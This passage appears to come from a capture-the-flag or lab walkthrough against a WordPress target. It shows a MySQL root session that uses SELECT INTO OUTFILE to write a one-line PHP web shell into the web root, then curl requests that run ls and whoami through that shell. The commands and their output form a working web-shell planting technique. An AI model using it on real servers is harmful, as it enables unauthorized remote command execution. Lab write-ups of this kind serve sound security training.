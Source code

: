 ```bash

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');

define('WP_HTTP_BLOCK_EXTERNAL', true);
```

After researching what I could do with root access to MySQL, I learned about the following way to be able to execute shell commands directly on the target's machine:

 ```bash
kali@kali:~$ mysql -u root -p -h 192.168.56.114
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 1882
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/blogblog/wp-content/uploads/inject.php";
ERROR 1 (HY000): Can not create/write to file '/var/www/html/blogblog/wp-content/uploads/inject.php' (Errcode: 2 - No such file or directory)
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/inject.php";
ERROR 1 (HY000): Can not create/write to file '/var/inject.php' (Errcode: 13 - Permission denied)
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/inject.php";
ERROR 1 (HY000): Can not create/write to file '/var/www/inject.php' (Errcode: 13 - Permission denied)
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/inject.php";
ERROR 1 (HY000): Can not create/write to file '/var/www/html/inject.php' (Errcode: 2 - No such file or directory)
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/inject.php";
ERROR 1 (HY000): Can not create/write to file '/var/www/https/inject.php' (Errcode: 13 - Permission denied)
MySQL [mysql]> SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/https/blogblog/wp-content/uploads/inject.php";                                       
Query OK, 1 row affected (0.001 sec)
kali@kali:~$ curl -k https://192.168.56.114:12380/blogblog/wp-content/uploads/inject.php?cmd=ls
1930028253.jpeg
inject.php
shell.php
kali@kali:~$ curl -k https://192.168.56.114:12380/blogblog/wp-content/uploads/inject.php?cmd=whoami
www-data
```
